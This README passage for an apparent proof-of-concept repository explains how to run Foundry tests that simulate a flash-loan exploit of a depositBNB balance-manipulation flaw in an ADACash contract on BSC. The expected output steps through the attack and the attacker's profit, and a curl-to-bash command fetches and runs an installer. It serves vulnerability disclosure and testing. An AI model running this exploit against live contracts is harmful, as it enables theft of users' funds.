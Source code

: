 ## Running the Simulation

### Prerequisites

1. **Foundry Installation**:
   ```bash
   curl -L https://foundry.paradigm.xyz | bash
   foundryup
   ```

2. **Environment Setup**:
   ```bash
   cp .env.example .env
   # Add BSC RPC URL to .env file
   ```

### Test Execution

1. **Basic Vulnerability Test**:
   ```bash
   forge test --match-test testDepositBNBVulnerability -vvv
   ```

2. **Flash Loan Exploit Simulation**:
   ```bash
   forge test --match-test testFlashLoanExploit -vvv
   ```

3. **Real PancakeSwap Integration**:
   ```bash
   forge test --match-test testRealPancakeSwapFlashLoan -vvv
   ```

4. **Full Test Suite**:
   ```bash
   forge test -vvv
   ```

### Expected Output

```
=== BSC Flash Loan Exploit Simulation ===
Attacker initial balance: 10
Vulnerable contract ADACash: 900000

=== Step 1: Manipulate contract balance ===
Sent 226 BNB to vulnerable contract

=== Step 2: Call depositBNB with small amount ===
Amount sent with depositBNB: 0.1 BNB
Amount recorded by contract: 226 BNB
Manipulation factor: 2261

=== Step 3: Check calculated rewards ===
Rewards calculated: 1800000 ADACash tokens

=== Step 4: Withdraw deposited BNB ===
BNB withdrawn: 226

=== Exploit Results ===
Initial attacker balance: 10
Final attacker balance: 236
Net profit from balance manipulation: 225
ADACash rewards available: 1800000

[SUCCESS] Exploit simulation successful!
```
